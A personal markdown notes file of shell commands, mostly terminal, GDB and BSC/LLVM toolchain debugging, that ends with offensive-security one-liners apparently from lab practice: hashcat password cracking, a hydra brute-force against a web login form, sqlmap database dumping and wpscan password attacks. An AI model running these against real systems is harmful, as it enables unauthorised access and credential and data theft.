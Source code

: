 ```yaml
---
title: "Useful Commands Dump"
tags:
  - help
  - work
---
```

# Useful Commands Dump
---

Well... where I dump any useful commands I find and them hopefully I'll categorise them... eventually...

## Terminal
* Change file extension of all files:
```bash
for file in *.txt; do mv "$file" "${file%.txt}.md"; done
```

* If Git is hanging after total is because:
```bash
git config --global http.postBuffer 157286400
```

## GDB
| Command                      | Description                                                      |
| ---------------------------- | ---------------------------------------------------------------- |
| `gdb --args <binary> <args>` | Start the program with an argument list.                         |
| `b FileName:linenum`         | For setting a breakpoint.                                        |
| `bt`                         | For getting backtrace.                                           |
| `thread apply all bt`        | For getting the backtrace of all threads.                        |
| `p variableName`             | For printing the value of a variable/object.                     |
| `up`                         | For going up the stack frame.                                    |
| `down`                       | For going down the stack frame.                                  |
| `l`                          | For listing source lines of code around the current stack frame. |
| `disassemble`                | For showing the assembly code of the current function.           |
| `n`                          | For executing the next source instruction.                       |
| `si`                         | For executing the next machine instruction.                      |
| `q`                          | To quit the debugger.                                            |
| `r`                          | To run the program.                                              |

The docs are [here](https://www.gnu.org/software/gdb/documentation/).
More info on [GDB](notes/gdb.md).

## The dump of dumps

### BSC/Tiger related
```bash
runtest --tool=gcc --tool_exec=bsc-elf-clang  --tool_opts= --directory=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite/gcc.target --srcdir=${HOME}/tiger/gcc-for-llvm-testing/gcc/testsuite --target_board=bsc-embdebug --target=bsc-elf "bsc.exp=bsc/or.c"
```

```bash
export PATH=${HOME}/riscv32-clang-gcc-testing/install/bin:$PATH
export BSC_TIMEOUT=300
export BSC_TRIPLE=bsc-elf
export BSC_SIM_COMMAND=bsc-run
export BSC_SIM_FLAGS=
export DEJAGNU=${HOME}/tiger/toolchain/site.exp
export TOOLDIR=${HOME}/tiger/toolchain/
```

```bash
bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' test2.exe
```

```bash
llvm-objdump -d <testobject>
```

```bash
bsc-run --max-steps=200 --trace-inst --trace-regs --trace-stack ds.exe 2>&1 | tee output.txt
```

```bash
pietraferreira@tom:~/insn-test-tiger$ bsc-elf-gdb -ex 'target remote | embdebug --soname bsc --stdin' -ex 'break exit' -ex 'break abort' sub.exe
```

Ask the front end to produce unoptimised LLVM IR:
```bash
bsc-elf-clang -Wall -O0 -S -emit-llvm --target=bsc 20180309-1.c -o 20180309-1.ll
```

Compile but stop at assembly:
```bash
llc --debug -mtriple=bsc 20180309-1.ll -o 20180309-1.s
```

```bash
llvm-objdump -d sim-test.exe
```

```bash
bsc-elf-gdb sim-test.exe -ex "target remote | embdebug --soname sysc-bsc --vcd=trace-do --debug=0x00070000 --clk-mhz=1 --sim-cycles=10000 --stdin" -ex load -ex c -ex detach -ex quit 2>&1 | tee sim-test.log
```

## Website URL Fix
```bash
grep -rl 'notes/images' . | sort | uniq | xargs perl -e "s/assets/assets\/engineer-training/" -pi
```

## Hashcat
```bash
hashcat -m 1000 pass.txt ../Desktop/rockyou.txt
```

## Hydra
```bash
hydra -l admin -P ../Desktop/rockyou.txt 10.10.187.151 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=iL08cD6b3clJctyo0KNeEsuXx9w7SrkAtggDy0m16fdgDu1lU1uuo3uh6%2FRluRbkD9GutlhMGTHkzw5TKQ%2BHgSoGVo73vHE7yAY2Vsky3EyktnYS%2BIy0jb68wZvhEHGpOLmwYsk3M7NnT45B%2B2jaDdrRfwr94Ks2d1VIKp2LvcNs%2F6rd&__EVENTVALIDATION=5N%2Bcad1wYajo0H2m7Bq3nlBqYeKcha9MeicRSms1xOrJ8b9v%2FiDF9nj6Kge38NGN6KBMhWEtiNyCZFWTMItDUQu34YiMN8vVxQv6lQEgBw5RWhtEihlALnJsM5gAhf89mlKiwmAbHq2Lz0jR30paNwnGrt5M%2Fwj7m6oohs8%2F8JQKoaoM&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -vv
```

## SQLmap
```bash
sqlmap -r request.txt --dbms=mysql --dump
```

## Wordpress
Enumeration:

```bash
wpscan --url 10.10.101.40/blog
```

Look for vulnerable plugins and usernames:

```bash
wpscan --url 10.10.101.40/blog --usernames admin --passwords /usr/share/wordlists/rockyou.txt --max-threads 50
```